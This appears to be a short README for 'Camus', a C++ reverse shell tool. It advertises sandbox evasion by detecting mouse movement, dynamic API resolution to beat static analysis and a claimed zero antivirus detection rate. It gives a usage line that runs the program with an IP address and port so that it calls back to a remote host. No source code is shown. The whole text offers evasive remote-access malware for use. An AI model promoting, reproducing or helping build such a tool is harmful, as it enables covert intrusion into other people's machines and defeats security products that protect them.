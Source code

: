 # Camus

<div style="text-align: center; ">
  <img src="Image/1.jpg" width="200">
</div>

Reverse_Shell Implemented in C++ with the ability to bypass sandboxes through detecting mouse movement

Features:
- Reverse_shell implemented through c++
- Bypass sandbox through identifying mouse movement
- Dynamic API resolution for bypassing static analysis
- Zero detection rate (at the moment of speaking)

How to Use:
1. Run the program alongside with the IP address and port as inputs
   for example: Camus.exe 192.168.1.1 555


 <img src="Image/Antiscan.png" width="1000">
